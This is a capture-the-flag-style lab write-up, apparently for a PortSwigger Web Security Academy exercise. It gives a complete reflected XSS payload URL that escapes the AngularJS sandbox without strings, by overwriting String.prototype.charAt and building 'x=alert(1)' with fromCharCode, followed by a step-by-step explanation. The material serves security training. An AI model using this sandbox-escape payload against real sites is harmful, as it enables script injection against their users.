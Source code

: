 # Lab 12:Reflected XSS with AngularJS sandbox escape without strings

This lab uses **AngularJS** in an unusual way where the `$eval` function is **not available**, and you **cannot use any strings** in AngularJS expressions.

---

## ❗ Lab Challenge

Perform a cross-site scripting attack that **escapes the AngularJS sandbox** and executes the `alert()` function **without using the `$eval` function** or any strings.

---

## 🔧 Solution

Visit the following URL, replacing `YOUR-LAB-ID` with your actual lab ID:

```html
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

```

---

## 💡 Explanation

- The exploit uses `toString()` to **create strings without quotes**.
- It accesses the **String prototype** and **overwrites the `charAt` function** for every string.
- This effectively **breaks the AngularJS sandbox**.
- An array `[1]` is passed to the `orderBy` filter.
- The argument to the filter is created by:
    - Using `toString()` and the String constructor property.
    - Using the `fromCharCode` method to generate the string payload: `x=alert(1)`.
- Because `charAt` is overwritten, AngularJS **allows this code execution**, where normally it would not.

---

## ▶️ Community Video Solution

> Watch the detailed walkthrough here:
[https://youtu.be/pln9RRbB5CI](https://youtu.be/pln9RRbB5CI)
>